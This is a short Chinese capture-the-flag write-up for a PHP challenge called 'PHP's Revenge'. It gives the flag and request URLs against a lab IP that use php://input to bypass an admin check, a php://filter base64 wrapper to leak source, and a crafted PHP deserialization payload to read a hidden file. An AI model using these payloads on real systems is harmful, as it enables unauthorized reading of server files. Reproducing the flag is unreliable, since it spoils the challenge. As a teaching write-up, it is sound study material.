


## 题目名称

PHP's Revenge

### flag

nUiStCtF--df3m2mlm54d/FDFKJlmf

### writeup

访问页面后发现提示不是admin权限，审查元素发现HTML注释存在源代码泄露，index.php包含了class.php。于是利用可利用php://input绕过admin检测

http://192.168.114.137/index.php?user=php://input

利用PHP伪协议读取class.php源码

http://192.168.114.137/index.php?user=php://input&file=php://filter/read=convert.base64-encode/resource=class.php

将回显字符串通过base64解密可得class.php源码：

Cjw/cGhwCmVycm9yX3JlcG9ydGluZyhFX0FMTCAmIH5FX05PVElDRSk7CiAKY2xhc3MgUmVhZHsvL2YxYTkucGhwCiAgICBwdWJsaWMgJGZpbGU7CiAgICBwdWJsaWMgZnVuY3Rpb24gX190b1N0cmluZygpewogICAgICAgIGlmKGlzc2V0KCR0aGlzLT5maWxlKSl7CiAgICAgICAgICAgIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJHRoaXMtPmZpbGUpOyAgICAKICAgICAgICB9CiAgICAgICAgcmV0dXJuICJfX3RvU3RyaW5nIHdhcyBjYWxsZWQhIjsKICAgIH0KfQo/ 

最后构造php反序列化读取f1a9.php的源码，获取flag。

http://192.168.114.137/index.php?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=f1a9.php";}